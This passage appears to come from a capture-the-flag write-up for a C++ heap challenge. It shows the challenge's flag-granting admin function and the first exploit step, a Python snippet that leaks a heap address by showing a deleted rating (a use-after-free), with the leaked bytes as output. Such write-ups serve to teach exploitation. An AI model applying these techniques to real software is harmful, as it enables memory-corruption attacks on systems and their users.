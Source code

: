 ```cpp
// main.cpp
void scream(User *user) {
    std::cout << "Now scream to your hearts content!" << std::endl;
    std::string              line;
    std::vector<std::string> lines;
    while (line != "quit") {
        std::getline(std::cin, line);
        lines.push_back(line);

        if (lines.size() > 50) {
            std::cout << "Thats enough!" << std::endl;
            return;
        }
    }
    return;
}
```

### Do Admin Stuff

This is the function that would give us the flag given that our permission is 
`ADMIN`.

```cpp
// main.cpp
void doAdminStuff(User *user) {
    if (user->getUserLevel() != Perms::ADMIN) {
        std::cout << "You are not an admin!" << std::endl;
        exit(1);
    } else if (user->getUserLevel() == Perms::ADMIN) {
        std::ifstream flag_stream("./flag.txt");
        std::string   flag;
        std::getline(flag_stream, flag);
        flag_stream.close();
        std::cout << "Verified permissions" << std::endl;
        std::cout << "Here is your flag: " << flag << std::endl;
        exit(0);
    }
}
```

## Solution

### Getting A Heap Leak

From the analysis above, we found out that we could obtain a heap leak by
deleting a rating and show the rating.

```python
create(b"a" * 8)
show()
print(io.recvline())
print(io.recvline())

delete(1)
show()
print(io.recvline())
print(io.recvline())

"""
b'Your ratings: \n'
b'1: aaaaaaaa\n'
b'Your ratings: \n'
b'1: w\xa3c`\x05\n'
```